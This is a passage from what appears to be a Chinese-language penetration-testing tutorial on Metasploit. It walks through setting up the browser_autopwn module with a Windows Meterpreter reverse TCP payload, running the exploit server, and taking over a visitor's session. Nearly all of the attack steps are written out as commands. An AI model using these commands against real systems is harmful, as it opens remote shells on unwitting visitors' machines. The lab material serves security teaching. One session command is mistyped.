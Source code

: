     ![](img/6-10-1.jpg)
    
4.  使用` browser_autopwn `模块：

    ```
    Use auxiliary/server/browser_autopwn
    ```
    
5.  设置我们的载荷，这里我们使用 Windows 反向 TCP：

    ```
    set payload windows/meterpreter/reverse_tcp 
    ```
    
6.  显示可用于该载荷类型的选项。

    ```
    show options
    ```
    
7.  设置反向连接所使用的 IP。这里，该 PC 的 IP 地址为` 192.168.10.109`。

    ```
    set LHOST 192.168.10.109
    ```
    
8.  下面，我们打算设置 URIPATH，这里我们使用`"filetypes"`（带引号）：

    ```
    set URIPATH "filetypes" 
    ```
    
9.  最后，我们执行漏洞利用：

    ```
    exploit
    ```
    
0.  Metasploit 会在 IP 地址 <http://[Provided IP Address]:8080> 处执行漏洞利用。

1.  当访问者访问这个地址时，`browser_autopwn`模块尝试连接用户的机器来建立远程会话。如果成功的话，Meterpreter 会确认这个会话。使用会话命令来激活它：

    ```
    session –I 1
    ```
    
2.  为了显示我们可以使用的 Meterpreter 命令列表，输入`help`。

    ```
    help
    ```
    